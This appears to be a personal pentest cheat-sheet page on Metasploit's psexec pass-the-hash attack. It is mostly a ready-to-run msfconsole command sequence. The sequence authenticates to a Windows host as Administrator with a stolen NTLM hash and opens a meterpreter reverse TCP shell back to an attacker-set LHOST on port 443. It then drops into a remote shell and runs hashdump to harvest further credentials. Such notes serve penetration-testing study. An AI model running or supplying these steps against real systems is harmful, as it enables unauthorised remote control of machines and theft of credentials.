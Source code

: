 ```yaml
---
title: "psexec pass the hash"
# search:
#   exclude: true

hide:
#   - navigation
  - toc
  #- footer
---
```


## PSEXEC PASS THE HASH

<https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/>

assuming you already have the NTLM `username:ntlm-hash`, you can then run the reverse tcp shell

```bash
# start metasploit meterpreter  
msfconsole

# search for the windows smb `psexec` exploit
msf > search psexec

# "load" the exploit to use  
msf > use exploit/windows/smb/psexec

# list the available configuration options to `set` for the exploit  
msf exploit(psexec) > show options

# using the `psexec` exploit, we will send the `reverse_tcp` shell payload
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp

# set the LocalHost for the reverse shell connect to
msf exploit(psexec) > set LHOST 192.XXXXX

# set the LocalPort for the reverse shell connect to
msf exploit(psexec) > set LPORT 443

# set the RemoteHost (the target) that we are going to run the exploit and payload against to
msf exploit(psexec) > set RHOST 192.XXXXXX

# why not?! list all configuration options to see if we are happy with it
msf exploit(psexec) > show options

# set the username 
msf exploit(psexec) > set SMBUser Administrator

# set the SMBPassword, the NTLM that we have
msf exploit(psexec) > set SMBPass 00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c


# run `exploit` to execute the exploit AND the payload
msf exploit(psexec) > exploit
```

If the above executes successfully, you can then drop "into" into a shell on the remote host  
meterpreter > `shell`

you can also run `hasdump` to dump any additional NTLM hash
meterpreter > `run post/windows/gather/hashdump`
